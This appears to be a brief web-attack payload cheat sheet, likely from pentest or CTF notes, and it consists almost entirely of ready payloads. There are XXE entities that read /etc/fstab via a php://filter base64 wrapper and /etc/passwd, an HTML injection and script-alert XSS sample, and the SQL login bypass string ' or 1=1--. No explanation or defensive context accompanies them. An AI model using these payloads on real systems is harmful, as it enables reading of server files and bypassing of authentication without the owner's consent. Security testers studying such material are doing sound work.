 XML Payload:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY email SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/fstab">
]>

<root>
<name>gowtham</name>
<tel>test</tel>
<email>&email;</email>
<password>test</password>
</root>

<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY email  "test@test.com">
]>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY email SYSTEM "/etc/passwd">
]>

**HTML Injection:**

<h1>HTML</h1>

### <script>alert(“Hello World”)</script>

SQL Auth Bypass:

### **' or 1=1--**
